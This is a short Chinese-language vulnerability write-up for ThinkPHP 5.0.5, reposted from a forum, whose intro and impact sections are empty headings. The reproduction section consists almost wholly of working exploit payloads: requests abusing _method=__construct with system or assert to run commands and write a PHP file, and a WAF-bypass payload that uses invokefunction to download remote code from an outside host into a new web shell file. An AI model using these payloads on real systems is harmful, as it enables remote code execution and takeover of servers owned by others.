 # Thinkphp 5.0.5

> 原文：[https://www.zhihuifly.com/t/topic/3148](https://www.zhihuifly.com/t/topic/3148)

# Thinkphp 5.0.5

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> www.0-sec.org/?s=index/index

```
POST

s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system `_method=__construct&method=GET&filter[]=system&get[]=whoami` 
```

> getshell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

### 补充

waf对eval进行了拦截

禁止了assert函数对eval函数后面的括号进行了正则过滤

对file_get_contents函数后面的括号进行了正则过滤

```
http://www.0-sec.org/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=2.php&vars[1][1]=<?php /*1111*//***/file_put_contents/*1**/(/***/'index11.php'/**/,file_get_contents(/**/'https://www.hack.com/xxx.js'))/**/;/**/?> 
```